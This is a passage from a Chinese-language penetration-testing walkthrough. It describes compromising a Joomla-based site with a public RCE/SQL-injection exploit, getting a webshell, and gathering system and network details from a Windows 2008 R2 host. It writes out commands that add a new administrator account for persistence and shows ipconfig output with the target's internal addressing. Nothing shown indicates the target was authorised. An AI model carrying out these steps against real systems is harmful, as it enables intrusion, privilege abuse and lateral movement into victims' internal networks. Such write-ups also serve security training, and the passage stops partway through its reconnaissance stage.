         按照上面的思路首先尝试寻找主站的漏洞,通常可通过AWVS或者其他的扫描工具做初步的扫描,看看会不会有可以利用的点。但是最简单直接的方法是打开这个站点,尽可能仔细的浏览每一可能有价值的页面,如下:



[![](https://p3.ssl.qhimg.com/t0183564e92646ab131.jpg)](https://p3.ssl.qhimg.com/t0183564e92646ab131.jpg)

        有没有发现,其实我们可以观察到一些很有价值的信息。从上面的信息,我们可以发现这个主站是基于Joomla CMS的,这个其实对我们接下来的渗透很有帮助,我们都知道最近爆出了Joomla的RCE和SQL注入漏洞,那么我们就可以去尝试看看这个站是否修复了这些漏洞。

        于是,我们可以使用已经公开的exp(http://avfisher.win/archives/287)对其进行测试, 如下所示:



[![](https://p2.ssl.qhimg.com/t01f3d71491e0f0bf38.jpg)](https://p2.ssl.qhimg.com/t01f3d71491e0f0bf38.jpg)



[![](https://p3.ssl.qhimg.com/t0167a7ad19e6d7da72.jpg)](https://p3.ssl.qhimg.com/t0167a7ad19e6d7da72.jpg)

        果然漏洞确实存在,而且我们也顺利地getshell了,那么是不是意味着我们的渗透已经结束了呢?no,no,no(重要的事情说3遍),其实真正的渗透才刚刚开始。

**        0x03 系统提权**

        我们发现这是一个Windows 2008 R2的服务器,既然我们已经拿到了webshell,接下来考虑的事情就应该是,我能不能获得管理员权限?

        首先,在菜刀中执行命令: whoami 看看现在的shell是在什么权限下运行的,如下:



[![](https://p2.ssl.qhimg.com/t010c8088149a77fc3a.png)](https://p2.ssl.qhimg.com/t010c8088149a77fc3a.png)

        可以看出我们的shell是在system权限下运行的,那么也就表示我们可以很容易的添加一个管理员帐户,命令如下:

```
net user administer &lt;password&gt; /add
        net localgroup administrators administer /add
```

# 

[![](https://p5.ssl.qhimg.com/t01ae7c1c19ed460b04.png)](https://p5.ssl.qhimg.com/t01ae7c1c19ed460b04.png)

**        0x04 内网渗透**

        接下来,我们就需要经一步查看和收集系统的一些常见信息来帮助我们进一步的内网渗透,通常包括以下信息:

        1. 系统信息 – systeminfo



[![](https://p5.ssl.qhimg.com/t01062a9eb405af634a.jpg)](https://p5.ssl.qhimg.com/t01062a9eb405af634a.jpg)

        2. IP信息 – ipconfig /all

```
Windows IP 配置
   主机名  . . . . . . . . . . . . . : EESTSWEB01   主 DNS 后缀 . . . . . . . . . . . : 
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否以太网适配器 本地连接:
   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Microsoft 虚拟机总线网络适配器
   物理地址. . . . . . . . . . . . . : 00-15-5D-00-02-01
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::98f7:e8a:3eeb:ff6%11(首选) 
   IPv4 地址 . . . . . . . . . . . . : 192.168.0.10(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.0.230
   DHCPv6 IAID . . . . . . . . . . . : 234886493
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-1C-E6-6D-9C-00-15-5D-00-02-01
   DNS 服务器  . . . . . . . . . . . : 192.168.0.1
```